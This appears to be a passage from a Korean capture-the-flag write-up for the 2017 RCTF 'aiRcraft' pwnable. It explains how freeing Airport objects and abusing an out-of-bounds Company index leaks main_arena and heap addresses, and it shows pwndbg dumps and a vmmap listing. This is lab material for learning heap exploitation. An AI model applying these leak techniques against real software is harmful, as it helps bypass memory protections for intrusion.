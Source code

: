 Airport에 등록된 Plane에 대한 정보를 출력 해줍니다. 먼저, 라이브러리 주소를 노출 시키는 시나리오는 다음과 같습니다.

1. Airport 를 여러개 생성 한뒤, 2개 이상 해제를 하여 힙 메모리에 `main_arena` 주소를 생성
2. Plane을 생성하고, Plane의 Comapny 인덱스를 크게 조작하여 방금 해제된 Airport의 위치로 지정
3. Plane을 해제가 안된 Airport에 등록하고 Plane 정보를 출력하게 되면 해제된 Airport의 `FD (main_arena)` 위치가 출력됨

```
pwndbg> x/20gx 0x555555756020
0x555555756020:	0x00005555555555d8	0x00005555555555df  ; Company Name 위치
0x555555756030:	0x00005555555555e6	0x00005555555555ef
0x555555756040:	0x00007ffff7dd2620	0x0000000000000000
0x555555756050:	0x00007ffff7dd18e0	0x0000000000000000
0x555555756060:	0x00007ffff7dd2540	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757010	0x0000555555757130  ; Airport List 위치
0x555555756090:	0x0000555555757250	0x0000000000000000

pwndbg> x/gx 0x0000555555757130
0x555555757130:	0x00007ffff7dd1bf8
```

Airport 3개를 생성하고 0, 1을 삭제 하게 되면 Airport[1] 위치 (=0x555555756088 -> 0x555555757130 -> heap area)에 `FD`와 `BK`가 남게 됩니다.

따라서, Plane 생성시, Company Name 인덱스를 14 `(0x202020[n-1])`로 하게 되면 Company Name의 주소가 `0x555555756088`이 되고, 이 Plane을 해제가 안된 Airport에 등록 시키고 Plane정보를 출력하게 되면 `main_arena`주소가 노출 됩니다.

이와 동일하게, 원래 Airport 는 힙 할당된 주소를 갖고 있기 때문에 인덱스 15 (해제가 안된 Airport)를 갖는 Plane을 생성한 뒤, 동일하게 노출하면 힙 주소도 얻을 수 있습니다.

```
pwndbg> x/20gx 0x555555756020
0x555555756020:	0x00005555555555d8	0x00005555555555df
0x555555756030:	0x00005555555555e6	0x00005555555555ef
0x555555756040 <stdout>:	0x00007ffff7dd2620	0x0000000000000000
0x555555756050 <stdin>:	0x00007ffff7dd18e0	0x0000000000000000
0x555555756060 <stderr>:	0x00007ffff7dd2540	0x0000000000000000
0x555555756070:	0x0000000000000000	0x0000000000000000
0x555555756080:	0x0000555555757010	0x0000555555757130
0x555555756090:	0x0000555555757250	0x0000000000000000

pwndbg> x/2gx 0x0000555555757250
0x555555757250:	0x00005555557572e0	0x0000555555757010

pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x555555554000     0x555555556000 r-xp     2000 0      /home/hackability/ctf/pwnable/0010_2017_RCTF_aiRcraft/aiRcraft
    0x555555755000     0x555555756000 r--p     1000 1000   /home/hackability/ctf/pwnable/0010_2017_RCTF_aiRcraft/aiRcraft
    0x555555756000     0x555555757000 rw-p     1000 2000   /home/hackability/ctf/pwnable/0010_2017_RCTF_aiRcraft/aiRcraft
    0x555555757000     0x555555778000 rw-p    21000 0      [heap]
    0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7bcd000     0x7ffff7dcd000 ---p   200000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dcd000     0x7ffff7dd1000 r--p     4000 1c0000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd1000     0x7ffff7dd3000 rw-p     2000 1c4000 /lib/x86_64-linux-gnu/libc-2.23.so
    0x7ffff7dd3000     0x7ffff7dd7000 rw-p     4000 0      
    0x7ffff7dd7000     0x7ffff7dfd000 r-xp    26000 0      /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7fda000     0x7ffff7fdd000 rw-p     3000 0      
    0x7ffff7ff6000     0x7ffff7ff8000 rw-p     2000 0      
    0x7ffff7ff8000     0x7ffff7ffa000 r--p     2000 0      [vvar]
    0x7ffff7ffa000     0x7ffff7ffc000 r-xp     2000 0      [vdso]
    0x7ffff7ffc000     0x7ffff7ffd000 r--p     1000 25000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffd000     0x7ffff7ffe000 rw-p     1000 26000  /lib/x86_64-linux-gnu/ld-2.23.so
    0x7ffff7ffe000     0x7ffff7fff000 rw-p     1000 0      
    0x7ffffffde000     0x7ffffffff000 rw-p    21000 0      [stack]
```